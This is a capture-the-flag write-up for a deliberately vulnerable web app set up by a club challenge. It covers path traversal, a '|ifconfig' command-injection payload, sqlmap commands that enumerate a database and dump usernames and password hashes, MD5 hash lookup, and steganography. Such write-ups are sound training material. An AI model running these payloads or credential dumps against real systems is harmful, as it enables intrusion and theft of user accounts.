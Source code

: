 ```yaml
---


---
```


<h1 id="pclub-dvwa">Pclub DVWA</h1>
<p>DVWA stands for Damn Vulnerable Web Application , and yes the website was indeed vulnerable ;) . For the first flag a simple look at the source of the images rendered on the gallery pages reveals a possibility of LFI (Local File Inclusion) vulnerability , and it indeed happens to be true. A simple modification to the paths leads us to the routes.txt file.<br>
And we get our first flag :</p>
<pre><code>pclub{path_trav3rsa1_1s_fun} 
</code></pre>
<p><img src="https://s12.gifyu.com/images/Sf9mK.gif" alt="flag1"></p>
<p>For the next flag following the hint leads to the /ipDetails where a simple test for command injection via simple payload of |ifconfig reveals the flag.</p>
<pre><code>60:45:bd:af:3f:e5
</code></pre>
<p><img src="https://s12.gifyu.com/images/Sf9mv.md.gif" alt="flag2"></p>
<p>For the next flag possibilities of exploitation exists in the routes /secretary_login and /blogs . Going to secretary login route shows a simple login form which use multipart-form data for sending a POST request. Testing this route using SQlmap for Sqli reveals it to be non injectable. Hence we shift our attention to the /blogs route where for rendering of the blogs /getBlogDetail path is used. Putting this route to test indeed reveals that it is vulnerable to SQL Injection.</p>
<p>Further using the following commands in SQLMap allows us to get the list of DBs , using which we can query for the tables and the columns in those tables.</p>
<p><strong>For testing against SQLinjection :</strong></p>
<pre><code> sqlmap -u "http://74.225.254.195:2324/getBlogDetail?blog=1&amp;part=link"
</code></pre>
<p>For exploitation the following commands were used :<br>
<strong>List of Databases :</strong></p>
<pre><code>sqlmap -u "http://74.225.254.195:2324/getBlogDetail?blog=1&amp;part=link" --dbs
</code></pre>
<p><img src="https://i.postimg.cc/X7SPQf3s/image.png" alt="image.png"><br>
<strong>List of Tables :</strong></p>
<pre><code>sqlmap -u "http://74.225.254.195:2324/getBlogDetail?blog=1&amp;part=link" -D pclub_secy_task --tables
</code></pre>
<p><strong>List of Columns in the User Table :</strong></p>
<pre><code>sqlmap -u "http://74.225.254.195:2324/getBlogDetail?blog=1&amp;part=link" -D pclub_secy_task -T USERS --columns
</code></pre>
<p><strong>Dumping Data from all available columns in the User Table:</strong></p>
<pre><code> sqlmap -u "http://74.225.254.195:2324/getBlogDetail?blog=1&amp;part=link" -D pclub_secy_task -T USERS -C user,password,userhash --dump
</code></pre>
<p><img src="https://gcdnb.pbrd.co/images/GmHycIFu12Br.png" alt="sqlmap output"><br>
After dumping the data in the csv format and opening it , we find a list of usernames and associated password hashes and username hashes , from the data in the hints table its clear these hashes are MD5 hashes . A quick search of these hashes on known hashes website <a href="http://Hashes.com">Hashes.com</a>. Reveals that all of these hashes are of passwords which have already been leaked in the internet before .</p>
<p><img src="https://gcdnb.pbrd.co/images/punnvoGcdu8x.png" alt="hashes"><br>
<img src="https://gcdnb.pbrd.co/images/n2bdDiBVzAXm.png?o=1" alt="unhashed"><br>
After logging in with the user:pass of kaptaan we get the flag ,<br>
![sqli_flag](<img src="https://gcdnb.pbrd.co/images/oUCbPUjJZcrX.png?o=1" alt=""></p>
<p>Logging in with the password obtained for ritvikg22 gets us to the link of the pwn_task , whereas logging in with amansg22 gets us the log of Aerial Robotics IITK. Uploading this image on <a href="https://www.aperisolve.com/">aperisolve</a> which is a website which checks an image against common steg tactics applied on the image reveals a QR code embedded inside it.</p>
<p><img src="https://i.postimg.cc/GtSZmN6r/image.png" alt="Flag_4"></p>
<p>Scanning that QR code gives the flag.</p>
<pre><code>pclub{data_1s_3v3ryth1ng)
</code></pre>

